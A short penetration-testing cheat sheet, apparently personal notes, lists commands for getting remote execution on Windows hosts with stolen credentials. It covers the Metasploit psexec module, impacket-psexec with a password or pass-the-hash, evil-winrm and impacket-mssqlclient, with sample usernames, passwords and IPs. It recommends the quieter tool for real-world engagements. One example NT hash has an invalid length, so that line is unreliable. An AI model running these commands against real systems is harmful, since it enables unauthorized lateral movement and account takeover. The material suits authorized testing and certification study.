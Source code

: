 # Metasploit
```
Easy but noisy, do this for CTFs or certs.
use exploit/windows/smb/psexec
set RHOST $(IP_ADDRESS)
set SMBDomain $(DOMAIN) # e.g MARVEL.local
set SMBUser $(USERNAME)
set SMBPass $(PASSWORD) # The password can be the hash instead of the cracked password.
exploit
```
# psexec.py
Much less noisy. Do this in real-world engagements or certs where metasploit isn't allowed.
```bash
impacket-psexec $(DOMAIN)/$(USERNAME):'$(PASSWORD)'@$(IP_ADDRESS)
```
Example:
```bash
impacket-psexec MARVEL.local/fcastle:'Password1'@192.168.138.137
```
How to do it with a hash instead:
```bash
impacket-psexec $(USERNAME)@$(IP_ADDRESS) -hashes $(LM):$(NT)
```
Example:
```bash
impacket-psexec administrator@10.0.0.25 -hashes aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d4edc98d0a0c9797ef98b869751
```
# evil-winrm
```bash
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```
# mssql-client
```bash
impacket-mssqlclient $(DOMAIN)/$(USERNAME):'$(PASSWORD)'@$(IP_ADDRESS)
```
